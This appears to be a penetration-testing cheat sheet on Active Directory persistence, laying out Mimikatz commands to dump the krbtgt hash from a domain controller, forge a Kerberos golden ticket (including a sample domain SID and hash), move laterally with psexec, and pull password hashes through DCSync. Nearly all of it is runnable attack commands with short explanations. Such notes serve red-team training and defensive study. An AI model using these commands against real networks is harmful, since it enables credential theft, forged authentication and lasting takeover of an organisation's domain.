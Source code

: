 # Persistence

<details>

<summary>Golden Ticket</summary>

* When a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain.
* The secret key is actually the password hash of a domain user account called krbtgt.

- Requires access to an account that is in Domain Admins group or compromised the DC

1. Inside DC,

```
mimikatz.exe
```

```
privilege::debug
```

```
lsadump::lsa /patch
```

* Copy out the `krbtgt` hash.

2. Delete any existing Kerberos tickets and generate a golden ticket.

```shell
kerberos::purge
```

```bash
kerberos::golden /user:fakeuser /domain:prod.corp1.com /sid:[domain-sid] /krbtgt:[krbtgt hash] /ptt		
    #kerberos::golden /user:fakeuser /domain:prod.corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /krbtgt:cce9d6cd94eb31ccfbb7cc8eeadf7ce1 /ptt
```

3. Open anew command prompt and attempt lateral movement again

```
misc::cmd
```

```
psexec.exe \\dc01 cmd.exe
```

</details>

<details>

<summary>Domain Controller Synchronization (DCSync)</summary>

* Requires Domain admin  account.

1. On `Mimikatz.exe`,&#x20;

```
lsadump::dcsync /user:Administrator
```

* The dump contains multiple hashes associated with the last twenty-nine used user passwords as well as the hashes used with AES encryption.

</details>

